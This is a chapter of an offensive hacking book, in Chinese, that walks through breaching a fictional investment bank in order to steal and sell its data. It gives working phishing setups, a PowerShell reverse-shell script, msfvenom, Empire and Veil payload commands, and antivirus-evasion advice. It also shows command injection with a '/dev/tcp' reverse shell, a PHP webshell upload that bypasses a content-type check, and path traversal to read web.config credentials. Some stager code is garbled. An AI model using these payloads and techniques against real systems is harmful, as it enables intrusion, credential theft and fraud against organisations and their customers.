# 第二章、入侵

> 万物皆有裂缝，这就是光线进入的方式。 -- _伦纳德科恩（Leonard Cohen）_

现在您找到了匿名又免费接入互联网的完美地点，然后建立了TOR / VPN网络，并且拥有一台VPN充当"Front Gun"。是不是很激动，看来你准备好了！

我们的（假）目标将是一家名为Slash＆Paul's Holding（简称SPH）的公司。它是一家投资银行，为一些世界上最富有的客户管理资产。他们并不是特别邪恶；他们只是碰巧有巨额资金。

在使用工具和技巧发动攻击之前，让我们先停下来并明确我们的目标：

* 我们希望获得CEO的电子邮件，因为这只是一个典型操作！
* 我们还想窃取和出售公司的商业和人力资源等敏感数据，如帐号，信用卡数据，员工信息等。
* 但最重要的是，我们希望成功潜入。

SPH的基础架构以一种广泛而简单的方式看起来可能如下图所示：


当然，这个图过于简化了，因为真实的网络可能要复杂得多。但我们总能找到相同的通用元素:

* 隔离区（DMZ），以下称为蓝区。它通常托管面向互联网的服务器，这使得在所有标准下，它都是“不受信任”的区域，尽管有些公司坚持允许它几乎完全访问内网。
* 绿区，代表内网，通常托管工作站，业务应用程序，电子邮件服务器，网络共享等。

然后是黑暗区域 - 一个我们完全不知道的区域。这一切都取决于SPH的网络配置。一项简单的工作是，大多数关键服务器都将托管在绿区中，从而使得暗区缩小到一个小区域，该区域仅包含一些相机和电话服务。但是，越来越多的公司正在转向保护其在防火墙后面的最关键资产，从而创建了多个小型的，隔离的网络。

但是我们不要操之过急，而是专注于紧接着的下一步：在蓝区里面或甚至是绿区里建立一个据点，如果我们足够幸运的话。

我们有以下几种方法可以做到这一点:

* 网络钓鱼。迄今为止最受欢迎的方法，稍后我们将了解原因。
* 攻击蓝区的公共服务器。更难，但效率更高。
* 需要虚假USB，硬件植入等社会工程学的高阶手段。我们将把它留给真正有动机的黑客。

## 2.1 钓鱼邮件

网络钓鱼是诱骗用户执行某种能削弱公司安全性的行为，像点击链接，泄露密码，下载看似无害的软件，将钱汇到某个帐户等等。

经典的网络钓鱼攻击会针对成百上千的用户，以确保取得一定程度的成功。有针对性的网络钓鱼活动可以高达30％成功率。一些更隐蔽的攻击行为可能会针对少数关键员工高度定制邮件消息，即鱼叉式网络钓鱼。 

从黑客的角度来看，网络钓鱼是首选攻击，原因很简单：如果我们成功了，我们就能控制绿区的计算机。这就像我们已经坐在公司的办公室里，并且在公司网络上有一个帐户。无价！

现在，对于我们的网络钓鱼活动，我们需要一些关键要素:

* 员工及其电子邮件地址清单。 
* 一个好的电子邮件提示。
* 一个电子邮件发送平台。
* 一个隐蔽性好的恶意文件，让我们访问用户的机器。

让我们按顺序处理它们。

### 2.1.1.电子邮件

几乎每家公司都有一个公开网站，我们可以浏览以获取有关其业务，专业领域和联系信息的基本信息：常用电子邮件地址，电话号码等。 公司的电子邮件地址很重要，因为它提供了两个关键要素:

* 他们的电子邮件服务使用的域名（可能与官方网站的地址相同或不同）
* 电子邮件的格式：例如，是'name.surname@company.com'还是'first\_letter\_surname.name@company.com'？

访问网页 www.sph-assets.com/contact 时，我们会找到一个通用的联系地址：marketing@sph-assets.com。这本身并不是很有帮助，但仅向该地址发送电子邮件[13\],我们就会得到得到市场部工作人员的回应。


非常好，我们从这封电子邮件中获得了两条有价值的信息:

* 电子邮件地址格式：姓氏的第一个字母后跟名字：pvilma @sph-assets.com。
* 电子邮件的图表：默认字体，公司图表颜色，签名格式等。

这些信息很关键，因为现在我们只需要在此工作的人员的全名即可推断他们的电子邮件地址。感谢Facebook，Twitter和LinkedIn，这真是小菜一碟。我们只需在公司页面上查找并找出哪些人喜欢使用、关注或分享其内容。

The Harvester[14\]是一个可以自动化执行上述过程的有趣工具 ，它会在Google / Bing / Yahoo搜索结果中收集电子邮件地址。然而，求助于社交媒体，可以得到最准确，最新的结果。

### 2.1.2.邮件内容

对于网络钓鱼攻击，我们希望诱导收件人打开一个会执行恶意程序的文件。因此，我们的电子邮件需要足够吸引人，以促使收件人立即打开它，而不仅仅是打打哈欠然后归档它。

下面，你会找到一些想法，但我相信你可以拿出一些更狡猾的东西：

* 最新报告显示销售额急剧下降。
* Urgent 紧急发票需要立即结算。
* 最新的彭博报道。
* 股东调查结果。
* 应聘新经理的简历。

电子邮件的内容应简明扼要，并模仿我们之前确定的公司电子邮件格式。电子邮件的源地址可能是您可以提出的任何虚构名称。实际上，大多数电子邮件服务器都允许您指定任何源地址而无需执行适当的验证。

互联网有很多开放的SMTP服务器，我们可以用来自由发送电子邮件，但我们只需要尽可能简单地设置我们自己的电子邮件服务器，它将连接到sph-assets.com并推送网络钓鱼邮件。一个相当全面且能自动化执行上述过程的钓鱼工具是Gophish[15\]。

按照Gophish网站说明下载并安装该平台，一旦运行这个平台后，您就可以开始创建你的活动了。 

我们首先配置“发送配置文科”：源电子邮件地址和SMTP服务器（localhost）。理想情况下，我们希望电子邮件地址靠近IT\_support@sph-assets.com，但是，SPH的电子邮件服务器很可能禁止任何传入的电子邮件设置为xxx@sph-assets.com，这非常有意义。来自“@sph-assets.com”的所有电子邮件都应来自内部网络，而不是互联网。

因此，我们需要在“发送配置文件”菜单中指定另一个域名，例如 sph-group.com。发送电子邮件不需要存在此域名，不要费心去创建它。此外，只要我们加上别名：“IT支持”[it-support@sph-group.com](mailto:it-support@sph-group.com)，人们通常不会关注电子邮件发件人。


我们在“用户和群组”菜单中添加我们想要定位的用户，然后转到“电子邮件模板”以编写我们的消息内容：


我们设计电子邮件内容的方式应类似于从市场人员那里收到的电子邮件（相同的签名，相同的图表颜色，相同的字体等）。该电子邮件将邀请用户单击下载文件的链接，因有{}{.URL}}变量，GoPhish将自动化填写该链接。 

包含链接而不是直接附加恶意文件可以降低被垃圾邮件过滤器捕获的可能性。

我们在[http://www.noip.com/] 为Front Gun服务器注册了一个免费的DNS名称，如sph- group.ddns.net之类就已经足够了。然后，我们需要指定这个DNS名称作为{{.URL}}变量的值时，再执行钓鱼攻击行动。

由于我们不需要诱骗用户向我们提供凭据，因此我们不关心网页的内容。我们将自动触发文件下载，然后将其重定向到真正的SPH网站。

在Gophish的"Landing Page"菜单中，我们粘贴以下代码:

```html
<html>    
<iframe width="1" height="1" frameborder="0" src=" [File location on Gophish machine]"></iframe>
<iframe width="1" height="1" frameborder="0" src=" [File location on Gophish machine]"></iframe>
</html>
```

网络钓鱼活动已准备就绪，可以启动，只差一个小细节：恶意软件，这将成为下一节的主题。

### 2.1.3 恶意文件

我们可以向目标投送的文件类型有几种可能性。其中，可执行文件（.exe）非常令人可疑[16\]，并且将被所有电子邮件客户端丢弃。我们将使用一些更聪明的方法：一个包含恶意代码的excel电子表格，该恶意代码可以回连我们的服务器，获取要执行的命令，然后将结果发回，即反向shell。

#### 1、纯VBA

Visual Basic是一种脚本语言，可以嵌入到Office文档（Word，Excel，PowerPoint等）中，并在企业界被广泛用于大量数据处理。因此，员工习惯于在打开文档时执行宏（VBA代码）。

如果您是VBA专家，我相信您可以快速编写出一段代码，它能与我们的Front Gun服务器通信，检索要执行的命令，然后在受感染的计算机上执行它们。但是，因为VBA对我来说绝非小菜一碟，所以我将使用一个自动框架Metasploit [17\]，该框架默认安装在Kali Linux上，提供多种工具来渗透系统、生成有效荷载payload。

由于我们首先要测试代码，因此我们使用Netcat工具在Front Gun服务器上设置了一个监听，。它通常被称为黑客的瑞士军刀。它只是发送和接收原始套接字连接，但它也可以用于获取反向shell，传输文件等。

此命令将打开端口443并等待传入连接： `root@FrontGun:~# nc -l -p 443` 接下来，我们使用Metasploit的msfvenom 用于生成恶意VBA攻击载荷：

```bash
root@FrontGun:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e generic/none -f vba lhost=FrontGun_IP  lport=443
```

这将为x86架构生成反向shell攻击负载，无需任何特殊编码（通用/无）。我们将代码复制/粘贴到Excel宏中:


如果我们检查生成的代码，就能知道它执行以下操作:

* 通过调用过程Workbook\_Open（在上图中不可见）打开文档时启动攻击负载;
* 定义一个包含执行反向连接和代码执行的实际代码的数组。它采用x86汇编语言，因此独立于所使用的语言（VBA，PowerShell等）;
* 分配一些可执行内存，然后将shell代码复制并执行。

无论使用何种语言，Metasploit几乎总是遵循这种模式来生成其有效载荷。这使得防病毒解决方案能够标记此工具生成的任何内容变得微不足道。对隐身来说完全够用了。

我们可以轻松地添加加密函数来加密保存shellcode的变量（一些方法可参见[18\]），但让我们尝试一种较少障碍的全新方法。

#### 2、PowerShell救援

PowerShell是Windows上最强大的脚本语言之一。它已迅速成为管理员最信任的工具 - 同样也是黑客最心爱的情妇。在这个网页上查看一些非常好的PS工具[19\]。

和之前一样，我们希望在PowerShell中生成反向shell，然后将其嵌入到Office文档中。我们从PS脚本开始。

```powershell
#Open a socket connection
$client = New-Object System.Net.Sockets.TCPClient("FGUN_IP",4444);
$stream = $client.GetStream();

#Send shell prompt

$greeting = "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

#Wait for response, execute whatever’s coming, then loop back

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path +"> ";
    $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

为了确保脚本正常工作，我们使用以下命令在普通的Windows机器上执行它： `C:\examples> Powershell -Exec Bypass .\reverse.ps1`

在Front Gun服务器上，我们在端口4444上设置了监听器:


漂亮！我们在远程（测试）机器上进行远程执行。理想情况下，我们希望使用类似的VBA代码来调用此脚本:

`VBA> Shell ("powershell c:\temp\reverse.ps1 ")`

但是我们需要在将脚本写入到目标磁盘上，这可能会触发更多告警。避免这种情况的一种方法是使用PowerShell的内联命令执行的强大功能！我们执行作为powershell.exe参数传递过来的一串代码，从而替代执行一个脚本文件。

我们首先在每条指令的末尾添加一个分号';':

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.11",4444);
$stream = $client.GetStream();

$greeting = "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

然后我们在Linux上用Unicode base64编码脚本的内容:

```text
FrontGun$ cat reverse.ps1 | iconv -f UTF8 -t UTF16LE | base64
```


我们可以使用编码命令作为inline参数来调用此代码:



'-W hidden'参数将PowerShell隐藏在后台。最后一步是在用户打开Office文档时调用此过程 - Launch\_me（）:

```text
Sub Workbook_Open()    
     Launch_me()     
End Sub
```

我们可以进一步调整这个VBA宏，使其不那么容易阅读，但仍然让它可以正常工作。一个有趣的工具是Lucky Strike。它提供了漂亮的功能，如使用用户的电子邮件域（@sph-assets.com）进行加密以及其他有用的选项。

作者的全面指南可在以下[21\]地址获得，以使其有效。

#### 3、The Empire strikes

先前的payload很好，但它涉及到一些情况就会有以下局限性:

* 因为我们使用原始套接字来启动连接，所以使用Web代理访问互联网的工作站（很可能）将无法连接回来。
* 我们的Netcat监听器每次只接受一个连接，这不适合针对数百名用户的网络钓鱼行动。
* 我们使用的shell是相当基本的，若有一些自动命令可能会更有趣，比如启动键盘记录程序，嗅探密码等。

这就是臭名昭着的PowerShell Empire 派上用场的地方。它是一个框架，提供一个能够处理多个受感染用户的监听器，但也为shell提供了一些有趣的命令，如获取明文密码，数据透视，权限提升等。

按照此博客文章[http://www.powershellempire.com/?page\_id=110\] 下载并安装Empire PS（ 基本上复制Git存储库并启动 install. sh )

在欢迎屏幕上，转到监听器菜单（命令监听器）并使用info命令列出默认位置:


 通过发出set命令（例如**设置端口443**）设置正确的端口和地址，然后通过输入**<Listener_name>**来执行监听器。

现在我们需要生成回连此监听器的PowerShell代码。我们将这段代码称为“stager”或“agent”:

```text
(Emire) > Usestager launcher 
(Emire) > Set Listener test 
(Emire) > Set Base64 False
(Emire) > Set OutFile /root/stager.ps1

[SysTeM.NET.SErVicePOinTMaNAGer]::EXPeCt10 = 0;
$wC=NEw-ObjEct SYstEM.Net.WEbCLIenT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$Wc.HeaderS.Add('User-Agent',$u);
$Wc.PROXy= [SystEm.NEt.WebREQuest]::DefAuLtWEBPROxy;
$W [SYsTEM.NeT.CREDENtiAlCAChe]::DefAulTNeTwORK[chAr[]]$b=([cHaR[]] ($WC.DowNLOAdStrinG("http://<Front_Gun>:443/index.{$_-bXor$K[$i++%$k.LEngTH]};
IEX ($B-joIn'')
```


 您可以看到代理使用对称加密密钥来传输有效负载并很好地处理工作站上定义的任何潜在代理。在远程计算机上执行脚本时，我们会在Front Gun服务器上收到新通知。


我们将在接下来的章节中探讨Empire的一些有趣功能，同时您也可以通过help命令来了解 。

为了将此PowerShell脚本嵌入到Excel文档中，我们将使用常规的shell函数（如前所示）或依赖于LuckyStrike。

#### 4、Meterpreter  in VBA

为了替代使用PowerShell Empire的stager来获取shell，我们可以采取另一种方式，例如，通过部署一个来自Metasploit框架的meterpreter shell。就我们的直接目的而言，两个平台之间的差异相对较小。他们都有额外的模块来对受感染的工作站执行有趣的操作，但是使用两个stager会增加绕过SPH的反恶意软件解决方案（防病毒，沙箱，IDS等）的几率。

但是，如前所述，metasploit的有效载荷（包括meterpreter）是反病毒公司所熟知的，一旦被防病毒发现，就会发出告警。为了绕过这个告警，我们将使用另一种自动添加多层加密和混淆的工具生成相同的meterpreter payload：Veil-Evasion（项目地址:[https://github.com/Veil-Framework/Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) ，Veil-Evasion是与Metasploit生成相兼容的Payload的一款辅助框架,并可以绕过大多数的杀软）。

回顾一下，Veil-Evasion将在PowerShell中生成一个混淆的meterpreter shellcode，且这段代码将连接回连Front Gun服务器上的常规metasploit监听器，使得我们可以完全访问工作站。

干的漂亮。但是我们该怎么做呢？首先，我们需要在Linux上使用经典的apt-get install安装Veil-Evasion。安装时间有点长，但我们可以一次完成，非常简单直观： 

**list**命令显示所有可用的有效负载。我们选择PowerShell reverse\_https有效负载：

```text
>use powershell/meterpreter/rev_https
>set Proxy Y
>set LHost <FrontGun_IP>
>set LPort 443
>generate
```

这会生成两个文件:

* 执行PowerShell 有效载荷的meter.bat文件
* 一个预先配置的metasploit监听器：meter.rc

我们使用下列命令来启动监听器:

```text
FrontGun$ msfconsole -r meter.rc
```

然后我们可以测试meter.bat文件以确保它正常运行： 

好的，现在我们需要人工地深入了解代码，将这个payload插入到Excel文件中。如果打开生成的meter.bat文件，您将看到其唯一目的就是找出目标的体系结构并执行对应版本的PowerShell（x86或x64）： 

您可能已经注意到，meter.bat文件还以内联方式调用PS脚本，尽管这种掩饰并没有对命令进行编码。我们可以在VBA中转换该体系结构验证例程，然后从meter.bat文件中借用命令，我们可以开始了。

如果我们想使用Lucky Strike，我们可以假设Excel最有可能在32位进程中运行（大多数情况下是安全的选择），选择适当的代码段，通过删除两个斜杠字符“ \”来进行清理，然后将其保存到一个名为meter.ps1的文件中:

```text
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New- Object IO.MemoryStream (,$([Convert]::FromBase64String("nVRtb9s4DP6eX0EYO [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

我们执行这个meter.ps1文件来检查它是否仍然可以正常工作。现在我们有了正常的PowerShell文件，我们可以使用Lucky Strike生成适当的恶意Excel文件。

### 2.1.4 总结

综上所述，我们使用Gophish建立了一个电子邮件发送平台，收集了一些目标员工，并准备了两种功能强大的Excel恶意软件变种，它们很可能能绕过大多数防病毒保护。

关于这种攻击媒介的妙处在于，如果攻击成功（实际上，我们看起来只需要数百名员工中的一个受害者），我们就能潜入内网。

 

为什么防病毒软件不是一个问题呢?

防病毒软件主要基于签名来工作，即文件中被标记为恶意的特定数据包。如，防病毒软件会通过检查代码中的以下字节序列：0xFC99AADBA6143A标记恶意软件Trojan.Var.A !！。虽然有些编辑器可能具有代码分析，反转，随机性检查等高级功能，但是，实际上，核心引擎主要基于签名。

除了从头开始编码恶意软件的明显替代方案之外，还可以避免匹配任何已知的恶意软件的特征，这是绕过防病毒解决方案的一个重要事实。

他们只扫描磁盘上的文件！如果下载恶意文件，则将其写入“下载”文件夹，并立即由防病毒软件扫描并标记。现在，如果同一恶意文件直接注入内存，只要它不接触磁盘，就不会触发告警。

为此，我们可以使用一小段称为暂存器的代码将恶意代码（加密或编码）保存在变量中。然后将该代码注入到内存中新的或已经存在的进程中。这样，就不会在磁盘上写入恶意文件。这正就是我们的Excel文件所做的。

为什么防病毒软件无法检测到stager？有时候确实如此。与真正的恶意软件相比，stager只是几行代码，可以很容易地进行调整以逃避所有签名检测[27\].

## 2.2 公众曝光

在静候网络钓鱼攻击的果实时，我们也同时搜集互联网侧信息，寻找拿下SPH基础设施的新突破口。在下一节中，我们将先映射SPH在互联网上所有可见的存活服务器及其提供的服务（网站，邮件服务，VPN等），然后为我喜欢的“寻找小漏洞的艺术”巩固基础 - 这种漏洞可能会给我们提供我们正在寻找的临时突破口。

### 2.2.1.映射公共IP地址

我们的第一个线索（就此而言，这是唯一的线索）是公司的名称：Slash＆Paul’s Holdings。我们可以轻松找到他们的主要网站，这反过来又给我们带来了第二块拼图，即公共DNS记录：sph-assets.com。

但是，使用centralops.net（或domaintools.com），我们可以快速了解到，该网站的IP地址不是SPH拥有，而是Amazon拥有，说明它不是位于DMZ区中，而是位于SPH数据中心之外的某个暗色区域，因此我们可以忽略该线索。 

我们如何在DMZ区中找到真实的服务器呢？其实很简单：我们先枚举所有可能的DNS名称（\* .sph-assets.com），再检查其对应的IP地址，并查看centralops.net是否将SLASH＆PAUL HOLDINGS INC列为IP段的所有者。

诸如DNSRecon和DNScan之类的工具可自动执行此类请求，甚至提供最常用的子域列表来推动此搜索过程：Extranet.sph-assets.com，Lync.sph-assets.com，mail.sph-assets .com等

```text
root@kali:~# dnsrecon -d sph-assets.com -t brt -D wordlists/domains_short.txt
```


一旦整理出好域名和IP地址的列表，我们再查询centralops.net，查看哪些真正位于SPH拥有的IP范围内。

就我们的场景而言，让我们假设SPH的公共IP都位于较小的子网172.31.19.0/25中，该子网承载以下Web应用程序:

* Up.sph-assets.com 
* Career.sph-assets.com 
* Info.sph-assets.com 
* Catalog.sph-assets.com

### 2.2.2.Web应用

现在我们已经搜集到了一个url列表，接下来就是去找出这些网站的web漏洞来进一步执行攻击。

> 提示：找web漏洞需要检查发送到服务器的所有参数。为了正确执行此操作，采用Burp Suite或ZAP等工具是最有帮助的。它们拦截每个HTTP请求并更改HTML页面的内容，绕过一些基本的保护，如隐藏字段、未受保护字段等。它们还能很好地概览网站处理的所有参数，这些参数能让我们注入更多的恶意代码。

#### 1、up.sph-assets.com

第一个网站是初级的，只提供测试服务器是否启动的功能。在我看来，这是一家小型公用事业公司，由一位匆忙的管理人员组成，他想在一个懒洋洋的周日下午，在家里舒舒服服服地履行自己的职责。 

正如您可能注意到的，输出的结果与Linux系统上ping命令的输出非常相似。它只需将探测发送到远程服务器并等待回复。 

也许，只是也许，网站使用我们的输入（输入的域名）在Linux上创建一个ICMP请求并返回结果在PHP上，理论上应该是这样的:

```text
<?php    system("ping -c1 ".$_GET['host')]; ?>
```

如果我们的输入$\_GET\['host'\]变量在没有任何保护的情况下连接起来，如上面的示例所示，我们可以欺骗web应用程序执行其他系统命令。为此，我们需要添加一个类似“&”的连接字符（“&&”、“；”甚至“\|”都可以）。例如，如果网站确实存在漏洞，则除了执行ping命令外，以下输入还将成功列出用户:

```text
www.google.com ; cat /etc/passwd
```



有趣！我们试试更漂亮的。一个单行的反弹shell，让我们可以交互访问机器，怎么样:

```text
www.google.com; bash -i >& /dev/tcp/FRONT_GUN_IP/443 0>&1
```

在我们的前线服务器上，我们只需要运行一个简单的监听器，比如Netcat，就可以从远程服务器接收传入的shell: 

我们进去了！如果你想了解如何利用这种低级访问来执行大规模的崩溃，可以跳到第4节，但是为了完整性，让我们检查其他网站并寻找其他隐藏的宝藏。

> 注意：这是一个非常简单的例子来预热，但它为远程代码的执行奠定了基础。检查phpmailer上的漏洞，它遵循相同的思路:[https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html)

#### 2、career.sph-assets.com

和其他公司一样，SPH需要招聘人才来拓展业务。这个职业网站通过允许那些想要的员工上传他们的简历来达到这样的目的。

显然，上传文档时，要求的格式是PDF，但是如果我们尝试上传包含代码的文件，比如PHP/JSP或ASP，会怎么样？ 

其实没什么。我们从网站上得到一个很好的错误，说除了PDF以外的任何格式都是被禁止的。web应用程序在接受文件类型之前必须执行一些检查以确认其类型。

因此，我们的目标是诱使网站认为它收到了一个PDF文件，而实际上它是一个脏的PHP代码，在服务器上执行系统命令。如果我们在使用Burp或Zap上载文档时拦截发送的HTTP请求，我们可以看到浏览器发送文件类型“application/octet stream”及其内容: 

让我们将“Content Type”头更改为“application/pdf”，然后将请求转发到服务器。注意，我们没有更改文件的.php扩展名。  太棒了！我们的文件通过了安全检查，证明网站仅依赖于内容类型头。因此，我们的代码位于服务器的某个位置。它是一个简单的脚本，可以执行通过'cmd'参数接收到的任何命令，但是要执行它，我们需要确定它的确切位置并通过浏览器访问它。

有时这部分可能会非常棘手，而其他时候网站是很好地拼出完整的网址，只要我们花时间仔细看看。例如，在本例中，文件的URL隐藏在祝贺页面的源代码中（在Firefox/Chrome上按Ctrl+u）: 

一旦我们访问了PHP脚本，我们就可以执行任意的系统命令，并最终获得与前一章一样的反向shell: 

互联网上有许多可用的“webshell脚本”，它们提供了许多功能：良好的图形界面、数据库支持、文件浏览器等。然而，其中许多脚本可能带有隐藏的后门，为其他黑客提供了免费搭便车的机会。所以当心外面所有的C99或R57脚本。请保持webshell的简洁易用。

#### 3、info.sph-assets.com

这个网站似乎提供了一些关于公司历史的基本信息和一些吸引投资者的财务数字。通过与Burp Proxy的链接，我们注意到一个有趣的请求，它获取一个PDF报告: 

我们可以推断文件的位置是在“open”函数中用来读取报告，然后将其内容显示给用户的。作为一个热心的黑客，我们的第一个反应是诱使网站打开系统上的其他文件。但哪些呢？它们在磁盘上的什么位置？

我们一步一步来，好吗？首先，找出我们正在处理的是哪种操作系统。简单地看一下HTML源代码就知道我们正在与Windows服务器对话：AXD和ASPX文件是Microsoft IIS web服务器的典型信号: 

当然，还有网站的HTTP头，这使得它更加明显: 

IIS的配置存储在“web.config”文件中，通常是主网页上方的一个或两个目录。那么让我们请求那个文件:

`www.sph-assets.com/get_static.php? image=../../web.config` 

如您所见，我们获得了网站使用的数据库帐户，这是很方便的，但由于数据库位于内部网络上——DB0998并不完全是公共服务器名称——它对我们几乎没有用处……或者不是？

每个黑客/渗透测试人员都应该熟悉一条金科玉律，现在是我们引入它的时候了：管理员——嗯，人类真的——喜欢重用密码。在这本书中，我们将有机会见证几次。因此，当获取密码时，第一个反射就是在我们遇到的每个登录表单上尝试相同的字符串。

碰巧，这个网站是用WordPressCMS建立的。我们可以通过再次检查网站的源代码来推断这一点 : 

内容管理服务（CMS）是一种用于加快网站开发速度的工具。以WordPress为例：你下载并安装它，它将帮助你通过简单易用的界面创建网站内容。不需要掌握HTML、PHP和CSS就可以拥有一个功能强大、响应迅速的网站。

